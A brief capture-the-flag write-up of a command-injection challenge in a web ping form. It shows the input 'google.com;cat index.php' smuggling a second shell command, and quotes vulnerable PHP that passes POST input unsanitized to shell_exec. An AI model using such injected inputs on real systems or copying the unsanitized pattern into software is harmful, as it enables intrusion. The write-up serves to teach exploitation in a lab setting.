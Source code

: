 It seems that you can ping a website by entering his name in the form. By looking at the result, it seems like it is only displaying the result of

```bash
ping YOUR_ENTRY
```

If we are lucky, it is creating a shell to do this.

Then, we enter google.com;cat index.php

So the executed command becomes:

```
ping google.com;cat index.php
```

We see the result of the ping command, and if we open the source code, we can see:
```html
<pre>
<?php
$flag = ...;
if(isset($_POST["ip"]) && !empty($_POST["ip"])){
        $response = shell_exec("timeout 5 bash -c 'ping -c 3 ".$_POST["ip"]."'");
        echo $response;
}
?>
</pre>
```

You found the flag by injecting a malicious command ! Congratz !
